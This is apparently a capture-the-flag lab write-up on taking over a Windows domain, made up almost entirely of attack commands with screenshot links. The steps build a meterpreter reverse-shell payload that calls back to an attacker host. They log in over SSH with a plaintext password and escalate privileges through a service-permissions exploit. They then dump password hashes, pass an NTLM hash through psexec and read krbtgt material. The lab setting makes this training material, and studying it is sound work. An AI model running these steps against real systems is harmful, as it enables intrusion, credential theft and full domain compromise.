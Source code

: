 
Uses the following cmds for creating payload and privilege escalation.
Msfconsole
use exploit/multi/handler
set LHOST 10.110.28.200
set payload windows/x64/meterpreter/reverse_tcp
set LPORT 4444
set ExitOnSession false
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST='10.110.28.200' LPORT='4444' -f exe -o payload.exe[*] exec: msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST='10.110.28.200' LPORT='4444' -f exe -o payload.exe
On a second terminal ssh Dave@10.110.28.80 (password: gogogo)
.\payloaod.exe
Then back to the first terminal;
use exploit/windows/local/service_permissions
Set session 1
exploit 
cd C:\Users\Administrator
dir/s *flag*
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/1c8b67e0-b318-444e-8774-d1c4b3008f19)
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/41dd196d-7e53-4ed6-b171-7c92d11fbdb1)

 
**Windows Domain Takeover II**
From the previous meterepreter session, get hashdump with cmd: run post/windows/gather/hasdump
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/b80bba9a-ea89-4975-a800-0c1067b2843e)


On a new terminal, run the following:
msfconsole
use exploit/windows/smb/psexec 
set rhosts 10.110.28.60
set SMBUser Administrator
set payload windows/x64/meterpreter/reverse_tcp
set SMBPass aad3b435b51404eeaad3b435b51404ee:39de00a6a2a5fe74121df703176e014b
exploit
search -f *flag*
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/108c3d58-4135-419f-b383-9b4bd92677a1)
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/d432cd60-8a1f-4fea-baf4-acf5cf8e9921)
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/2f0a0943-1873-4f28-8055-032680c6872f)



**Windows Domain Takeover III** 
Krbtgt is in same location with the flag
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/f583fe59-3f41-4833-be25-89f7dc5f8083)

  
Used cmd to access file: type krbtgt.txt
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/da00fb6c-16ae-41fc-a872-63b0236a14fe)
 